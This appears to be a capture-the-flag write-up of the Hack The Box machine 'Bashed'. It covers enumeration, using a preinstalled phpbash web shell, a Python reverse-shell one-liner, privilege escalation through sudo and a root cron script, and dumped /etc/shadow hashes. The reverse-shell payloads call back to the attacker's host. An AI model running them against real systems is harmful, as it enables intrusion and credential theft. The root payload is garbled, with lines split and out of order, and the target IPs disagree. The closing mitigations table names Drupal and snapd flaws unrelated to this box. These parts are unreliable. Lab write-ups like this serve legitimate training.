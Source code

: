 ```yaml
---
title: "Hack the Box (HTB) - Bashed"
description: "?"
date: 2024-08-27 12:00:00 -100
image: /assets/images/HTB - Bashed/Bashed Tumbnail.jpg
categories: [CTF]
tags: []    # TAG names should always be lowercase
---
```


## Enumeration

We'll start by running [AutoRecon](https://github.com/Tib3rius/AutoRecon) against our box at `10.10.10.68`

```bash
sudo autorecon 10.10.10.56
```

Looking at the results, we see the following:

- 80/tcp open http Apache httpd 2.4.18 ((Ubuntu))

Just this Apache web server. Let's take a look

![Inital Web Page](/assets/images/HTB%20-%20Bashed/Inital%20web%20Page.png)

Clicking on `https://github.com/Arrexel/phpbash` link takes us to a github repo

![phpbash](/assets/images/HTB%20-%20Bashed/php%20bash.png)

This is a tool that lets pen testers run terminal commands directly through the web browser (given that they are able to upload `phpbash` to whatever they're trying to pentest) and would be useful in situations where you can't get shell access

Let's check our feroxbuster scan

![Feroxbuster](/assets/images/HTB%20-%20Bashed/php%20bash%20dirbuster.png)

This web server already has phpbash.php installed, we will ironically be using this to pentest this CTF

Running sudo -l shows us the following information

![wwwdata sudo -l](/assets/images/HTB%20-%20Bashed/wwwdata%20sudo%20-l.png)

Before we proceed, I would like to get a proper shell

```bash
# First Start NC
nc -lvnp 1234

# Python reverse shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Rev Shell](/assets/images/HTB%20-%20Bashed/Reverse%20Shell.png)

Let's upgrade our shell

```bash
Python3 -c 'import pty;pty.spawn ("/bin/bash")'

# Background with ctrl + z
stty raw-echo;fg

export TERM=xterm
```

Great, now we have a proper shell with full functionality

Going back  to our sudo -l. We see that we are able to 

- `(scriptmanager : scriptmanager) NOPASSWD: ALL`

Which mean we can run any command as the scriptmanager user without needing a password

We don't technically need to switch to that account, but let's do it anyway

```bash
sudo -u scriptmanager /bin/bash
```

![ScriptManager SU](/assets/images/HTB%20-%20Bashed/Script%20Manager.png)

Looking at the root directory, we see that there's a folder called `scripts`

![Scripts Directory](/assets/images/HTB%20-%20Bashed/Scripts%20Directory.png)

Inside this folder we see two files, `test.py` & `test.txt`

![Scripts](/assets/images/HTB%20-%20Bashed/Scripts.png)

As we can see from the output, `test.py` is a script that's owned by us & simultaneously writing to a file that's owned by root. This suggests test.py is being executed by a process with sufficient privileges (likely root) to write to test.txt


 We can easily modify this script to give us a root shell

```bash
nano test.py
```

```python
import socket
import subprocess
import os

def spawn_shell():
    # Connect to attacker's machine
    attacker_ip = "10.10.14.36"  # Replace with your IP address
    aeate a socket and connect to the attacker's machine
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((attacker_ip, attacker_port))
    ttacker_port = 9002  # Replace with your chosen port
    
    # Cr
    # Redirect stdin, stdout, and stderr to the socket
    os.dup2(s.fileno(), 0)  # stdin
    os.dup2(s.fileno(), 1)  # stdout
    os.dup2(s.fileno(), 2)  # stderr

    # Start a shell
    p = subprocess.call(["/bin/bash", "-i"])

if __name__ == "__main__":
    spawn_shell()
```

Start up nc

```bash
nc -lvnp 9002
```

Sit back and wait!

![Root](/assets/images/HTB%20-%20Bashed/Root%20Bashed.png)

GG, we've rooted Bashed!

## Additional Post Root Fun

### Finding the crontab that allowed root exploit

```bash
crontab -l
```

![crontab root](/assets/images/HTB%20-%20Bashed/crontab%20root.png)



Checking the `/etc/shadow` file gives us the hashes for the users we've discovered in this box

`arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.`

`scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk35Nqd0`

`root:$6$bgp25dyI$G94wQqO8btpDME48280tRVWzBA5nIZPWF2uOI5H6eHOER/nvY/RZOzYv4r51G0ML9dYN/RqjcYPOsaVdpJSBP/`

It looks like these are using different hash algorithms

- arrexel ues MD5 `($1$)`
- scriptmanager and root use SHA-512 `($6$)`

I am going to skip attempting to crack this as I have limited resources on my VM














## Vulnerabilities & Mitigation's

| **Vulnerability**                                | **Mitigation**                                                                                     |
|--------------------------------------------------|----------------------------------------------------------------------------------------------------|
| **Drupalgeddon 2 (CVE-2018-7600)**               | Update Drupal to a patched version. For Drupal 7.x, upgrade to 7.58 or later. For Drupal 8.x, upgrade to 8.5.1 or later. Apply security patches provided by Drupal. |
| **Snap Package Privilege Escalation**            | Ensure snapd is updated to the latest version. For CVE-2019-7304, ensure snapd version is 2.37.1 or higher. Regularly review and update package management tools. |

### Remediation References

- [Drupal Security Advisories](https://www.drupal.org/security)
- [Snapd Security Updates](https://snapcraft.io/docs/security-updates)